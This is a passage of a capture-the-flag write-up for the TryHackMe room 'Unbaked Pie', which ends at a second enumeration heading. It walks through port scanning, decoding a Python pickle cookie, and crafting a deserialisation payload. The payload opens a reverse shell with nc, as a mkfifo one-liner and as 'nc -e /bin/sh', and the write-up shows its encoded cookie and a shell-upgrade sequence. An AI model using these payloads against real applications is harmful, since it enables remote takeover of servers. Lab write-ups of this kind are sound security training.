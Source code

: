 # Unbaked Pie

![image](https://user-images.githubusercontent.com/5285547/135349199-38047830-0a14-4914-b35e-962103097322.png)

Room link: https://tryhackme.com/room/unbakedpie

## Enumeration

Nmap 

Starting my enumration with an nmap scan as usual, after a long scan only one port comes back to me, filemaker!?

```
PORT     STATE SERVICE
5003/tcp open  filemaker
```

## Port 5003

![image](https://user-images.githubusercontent.com/5285547/135356072-c5ced1a8-8140-42df-8d63-4ba43fe176ff.png)

Seems to be a website all about pickles and pickle products. 
Typing in the wrong path gave lots of info back from the host. 

![image](https://user-images.githubusercontent.com/5285547/135356353-88a8b03a-fc30-4a43-9643-41d5aa543eac.png)

![image](https://user-images.githubusercontent.com/5285547/135356371-a2862edc-20e7-4789-aed5-5fcc8afecab0.png)

## Pickle (python) (Decode)

Looking about the web app I notice in burp suite the request headers also point to python

![image](https://user-images.githubusercontent.com/5285547/135357480-734281a9-a09f-4af8-b86c-b90da5b7beb5.png)

When using the search feature on the site we can see a cookie being set (maybe also being deseralised) 

![image](https://user-images.githubusercontent.com/5285547/135357550-509b26c2-4449-459f-b1f8-fbcdb70a6985.png)

Set-Cookie

```
gASVCgAAAAAAAACMBmFzZGFzZJQu
```

Decoding the cookie value using python pickle

![image](https://user-images.githubusercontent.com/5285547/135357609-2b7aee9e-905f-486a-9064-e6b40d8b3c4f.png)

```
import pickle
import base64


string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
string_val = base64.b64decode(string_val)
d = pickle.loads(string_val)
print(d)
```

## RCE (Encode)

Using this [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) article which helps to get a better understanding of the python pickle rce. We can craft a payload to work here. 

Original RCE code

```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Root

Editing the code we can get RCE via the serilization. 

```
import pickle
import base64


#string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
#string_val = base64.b64decode(string_val)
#d = pickle.loads(string_val)
#print(d)

import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/sh IP PORT')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```
python3 pickl3.py
b'gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAtZSAvYmluL3NoIDEwLjguMTUzLjEyMCA5OTk5lIWUUpQu'
```

Swapping the cookie and calling /search (GET) we can get the code exection. 

![image](https://user-images.githubusercontent.com/5285547/135358609-2ad8541c-2223-466d-96b0-64f1262c1875.png)

After getting on we can update our shell. 

```
python3 -c "import pty;pty.spawn('/bin/bash')"
stty raw -echo;fg
reset
xterm
```

Now we can enumerate again to find more information. 

## Enumeration 2


